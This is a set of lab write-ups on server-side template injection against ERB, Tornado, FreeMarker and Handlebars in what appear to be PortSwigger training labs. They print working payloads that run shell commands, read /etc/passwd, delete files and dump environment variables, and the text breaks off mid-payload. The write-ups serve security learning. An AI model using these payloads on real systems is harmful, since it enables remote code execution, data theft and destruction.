01 Basic server-side template injection
=======================================

This lab is vulnerable to server-side template injection due to the unsafe
construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute
arbitrary code, then delete the morale.txt file from Carlos's home directory.

References:

-   https://portswigger.net/web-security/server-side-template-injection/exploiting

-   https://www.trustedsec.com/blog/rubyerb-template-injection/

-   https://twitter.com/harshbothra_/status/1498324305872318464?lang=en



The first post returns an error:


This is generated with a GET request which controls the displayed message:



I tried to send the URL-encoded version of this payload from the examples:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?message=%3c%25%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%69%6d%70%6f%72%74%20%6f%73%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%78%3d%6f%73%2e%70%6f%70%65%6e%28%27%69%64%27%29%2e%72%65%61%64%28%29%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%25%3e%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24%7b%78%7d
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

And generated the following error:



We can find information about SSTI in Erb in this [Trustedsec
blog](https://www.trustedsec.com/blog/rubyerb-template-injection/):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?message=<%=+4*4+%>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



It is possible to execute code with a payload like this:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?message=<%=+system('cat+/etc/passwd')+%>

GET /?message=<%=+system('rm+/home/carlos/morale.txt')+%>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





02 Basic server-side template injection (code context)
======================================================

This lab is vulnerable to server-side template injection due to the way it
unsafely uses a Tornado template. To solve the lab, review the Tornado
documentation to discover how to execute arbitrary code, then delete the
morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

Hint: Take a closer look at the "preferred name" functionality.

References:

-   https://portswigger.net/web-security/server-side-template-injection/exploiting


It is possible to update the email and set a preferred name:





If you change it to the nickname, in the comments you see H0td0g:



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.nickname}}{{2*2}}&csrf=PdLe58H5wvdQEv1PtPmQOJMvRz3krZgs
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.nickname}}{{os.popen("whoami").read()}}&csrf=PdLe58H5wvdQEv1PtPmQOJMvRz3krZgs
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.nickname}}{{os.popen("rm+/home/carlos/morale.txt").read()}}&csrf=PdLe58H5wvdQEv1PtPmQOJMvRz3krZgs
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



03 Server-side template injection using documentation
=====================================================

This lab is vulnerable to server-side template injection. To solve the lab,
identify the template engine and use the documentation to work out how to
execute arbitrary code, then delete the morale.txt file from Carlos's home
directory.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r

Hint: You should try solving this lab using only the documentation. However, if
you get really stuck, you can try finding a well-known exploit by \@albinowax
that you can use to solve the lab.

References:

-   https://portswigger.net/web-security/server-side-template-injection/exploiting

-   https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#freemarker



It is possible to edit the templates of the posts:



We find there are values calculated with the format "\${product.X}":



We can execute for example this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
${3*3}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



I tried the Mako's payload from the example and generated an error:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



The payload format is:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
${"freemarker.template.utility.Execute"?new()("id")}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Payload to delete the file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

04 Server-side template injection in an unknown language with a documented exploit
==================================================================================

This lab is vulnerable to server-side template injection. To solve the lab,
identify the template engine and find a documented exploit online that you can
use to execute arbitrary code, then delete the morale.txt file from Carlos's
home directory.

References:

-   http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

-   https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

-   https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet

Generated link:
https://0ab300360386552481b34d2700c600da.web-security-academy.net

The content of the message is reflected in the HTML inside a div element:



Checking with
https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=TEST:



Error with
https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message={{7\*7}}.
It seems it uses Node.js and handlebars:



I will follow:
http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

{{this.**proto**}} with
https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message={{this.**proto**}}:



Get process.env with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Url-encode it and get the content with
https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%4a%53%4f%4e%2e%73%74%72%69%6e%67%69%66%79%28%70%72%6f%63%65%73%73%2e%65%6e%76%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%